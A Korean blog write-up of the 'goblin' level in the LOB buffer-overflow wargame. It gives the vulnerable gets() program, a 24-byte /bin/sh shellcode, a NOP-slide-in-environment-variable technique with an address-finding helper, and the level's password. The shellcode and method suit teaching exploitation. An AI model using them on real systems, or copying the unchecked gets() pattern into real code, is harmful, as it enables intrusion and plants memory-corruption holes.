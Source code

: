 ```yaml
---
layout: post
title:  "[LOB]Level03. goblin"
subtitle:   "[LOB]cobolt → goblin"
categories: Write-up
tags:
- Wargame
- LOB(The Lord of Bufferoverflow)
- Write-up

---
```


## keyword : small buffer + stdin

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```



------

### 0x01. Static Analysis



앞서 문제 cobolt와 다른점은 cobolt에서는 main함수의 argv로 입력값을 받았다면, 지금 문제는 gets를 이용하여 문제를 받는다. 따라서 값을 넘겨주는 방식의 차이만 있을 뿐 앞 문제와 풀이 과정은 동일하다.



------

### 0x02. Dynamic Analysis & Exploit



cobolt 문제와 동일하게 환경변수에 쉘코드를 넣고 문제를 풀어보자.



```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/image-20180828135809460.png" width="700px">

EUNICE 환경변수에 NOP슬라이드와 쉘코드를 넣는다.



```c
//env.c
main(){
    printf("%08x\n", getenv("EUNICE") );
}
```

EUNICE 환경변수의 주소를 구하는 프로그램을 만들어서



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/image-20180828135852712.png" width="400px">

EUNICE환경변수의 주소를 구해온다. (0xbffffc33)



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/image-20180828135928174.png" width="600px">



**goblin / hackers proof**